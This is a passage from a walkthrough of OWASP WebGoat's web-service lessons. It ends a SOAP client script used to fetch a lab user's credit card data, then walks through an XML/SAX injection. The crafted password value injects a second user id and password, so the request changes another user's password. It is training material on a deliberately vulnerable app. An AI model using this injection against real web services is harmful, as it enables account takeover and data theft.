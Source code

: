 	try:
		send_soap(sys.argv[1], sys.argv[2])
	except:
		print ("Please enter valid input | arg1: method, arg2: user_id")

main()
{% endhighlight %}

Let's try to use it to get the credit card info for Joe Snow:

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_22/credit-card-tamper.jpg">

Nice! Our client is a little more adaptable now.

# Web Service SAX Injection
Instructions:

- Some web interfaces make use of Web Services in the background. If the frontend relies on the web service for all input validation, it may be possible to corrupt the XML that the web interface sends.
- In this exercise, try to change the password for a user other than 101. 

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_22/soap-sax-injection.jpg">

So we are given the request that is formed when we input a user_id to the web interface. This is basically an XML-injection attack. We can perform this by overwriting the read values of variables in the request. So if our request looks like this when we enter the new password ```newpass1```:

```
<?xml version='1.0' encoding='UTF-8'?>
<wsns0:Envelope
  xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
  xmlns:xsd='http://www.w3.org/2001/XMLSchema'
  xmlns:wsns0='http://schemas.xmlsoap.org/soap/envelope/'
  xmlns:wsns1='http://lessons.webgoat.owasp.org'>
  <wsns0:Body>
    <wsns1:changePassword>
      <id xsi:type='xsd:int'>101</id>
      <password xsi:type='xsd:string'>newpass1</password>
    </wsns1:changePassword>
  </wsns0:Body>
</wsns0:Envelope>
```

Now let's enter a maliciously crafted input for password:

```
newpass1</password><id xsi:type='xsd:int'>102</id><password xsi:type='xsd:string'>newpass2
```

Now the request looks like this:

```
<?xml version='1.0' encoding='UTF-8'?>
<wsns0:Envelope
  xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
  xmlns:xsd='http://www.w3.org/2001/XMLSchema'
  xmlns:wsns0='http://schemas.xmlsoap.org/soap/envelope/'
  xmlns:wsns1='http://lessons.webgoat.owasp.org'>
  <wsns0:Body>
    <wsns1:changePassword>
      <id xsi:type='xsd:int'>101</id>
      <password xsi:type='xsd:string'>newpass1</password>
      <id xsi:type='xsd:int'>102</id>
      <password xsi:type='xsd:string'>newpass2</password>
    </wsns1:changePassword>
  </wsns0:Body>
</wsns0:Envelope>
```